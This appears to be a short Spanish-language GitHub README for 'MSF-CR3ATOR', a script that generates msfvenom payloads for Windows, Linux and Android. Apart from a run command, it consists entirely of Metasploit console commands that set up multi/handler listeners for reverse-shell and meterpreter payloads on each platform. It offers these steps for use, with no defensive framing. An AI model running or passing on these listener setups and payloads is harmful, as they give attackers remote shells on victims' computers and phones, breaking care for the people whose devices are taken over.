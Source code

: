 # MSF-CR3ATOR
Crear Payload con msfvenom Para Windows Linux Y Android

# Ejecutar 
cd MSF-CR3ATOR ; python3 creator.py

# Comando De Msf Console

-------------------------------------------------
	>>>>>>>> LINUX <<<<<<<<<
-------------------------------------------------
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set lhost 192.168.0.101
set lport 5555
exploit

-------------------------------------------------
	>>>>>>>> WINDOWS <<<<<<<<<
-------------------------------------------------
msfconsole
se exploit/multi/handler
use payload/windows/shell/reverse_tcp
set lhost 192.168.0.101
set lport 5555
exploit


-------------------------------------------------
	>>>>>>>> ANDROID <<<<<<<<<
-------------------------------------------------
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp 
set lhost 192.168.0.101
set lport 5555
exploit

